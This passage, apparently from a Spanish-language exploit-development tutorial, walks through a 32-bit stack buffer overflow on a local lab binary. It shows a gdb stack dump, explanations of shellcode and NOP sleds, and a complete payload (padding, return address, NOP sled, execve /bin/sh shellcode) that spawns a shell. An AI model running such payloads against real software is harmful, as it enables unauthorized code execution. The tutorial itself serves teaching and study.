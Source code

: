 Mostramos el contenido del registro `ESP`

```
gdb-peda$ x/100wx $esp-8 
0xbffff06c:     0x41414141      0x42424242      0x43434343      0x43434343
0xbffff07c:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffff08c:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffff09c:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffff0ac:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffff0bc:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffff0cc:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffff0dc:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffff0ec:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffff0fc:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffff10c:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffff11c:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffff12c:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffff13c:     0xbffff400      0xbffff47e      0xbffff48c      0xbffff4a0
0xbffff14c:     0xbffff4f6      0xbffff513      0xbffff547      0xbffff559
0xbffff15c:     0xbffff581      0xbffff592      0xbffff5a4      0xbffff5bc
0xbffff16c:     0xbffff5d4      0xbffff5e9      0xbffff5fe      0xbffff617
0xbffff17c:     0xbffff62c      0xbffff644      0xbffff653      0xbffffc42
0xbffff18c:     0xbffffc6a      0xbffffcc8      0xbffffced      0xbffffd00
0xbffff19c:     0xbffffd1e      0xbffffd39      0xbffffd4c      0xbffffd54
0xbffff1ac:     0xbffffd66      0xbffffd94      0xbffffda0      0xbffffdc4
0xbffff1bc:     0xbffffdd1      0xbffffddd      0xbffffdee      0xbffffe12
0xbffff1cc:     0xbffffe29      0xbffffe5b      0xbffffe7a      0xbffffe89
0xbffff1dc:     0xbffffebd      0xbffffed4      0xbffffeeb      0xbffffefc
0xbffff1ec:     0xbfffff36      0xbfffff4b      0xbfffff56      0xbfffff7e
```

### Ejecución de comandos

**Shellcode**:  
Conjunto de órdenes programadas generalmente en lenguaje ensamblador y trasladadas a opcodes que suelen ser inyectadas en la pila de ejecución de un programa para conseguir que la máquina en la que reside se ejecute la operación que se haya programado.

Pascal shellcode 32 bits : [http://shell-storm.org/shellcode/files/shellcode-811.php](http://shell-storm.org/shellcode/files/shellcode-811.php)


**NOPS:**  
* (No-OPeration) es una instrucción disponible en la mayoría de arquitecturas que no hace nada, aparte de ocupar memoria y algo de tiempo de ejecución.  
* La razón por la que el atacante usa el trineo NOP es para hacer que la dirección de destino sea más grande: el código puede saltar en cualquier lugar del trineo, en lugar de exactamente al principio del código inyectado.

En la parte donde se localiza la direción de `EIP` colocaremos una dirección de `ESP` donde se encuentra los NOPS de forma que pueda ser interpretado el shellcode que añadimso

```
gdb-peda$ r $(python -c "print 'A'*72 + '\x0c\xf1\xff\xbf' + '\x90'*200 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
Starting program: /home/noroot/Escritorio/buffer32/buff $(python -c "print 'A'*72 + '\x0c\xf1\xff\xbf' + '\x90'*200 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
process 2742 is executing new program: /usr/bin/dash
$ whoami
[Attaching after process 2742 vfork to child process 2744]
[New inferior 2 (process 2744)]
[Detaching vfork parent process 2742 after child exec]
[Inferior 1 (process 2742) detached]
process 2744 is executing new program: /usr/bin/whoami
noroot
```
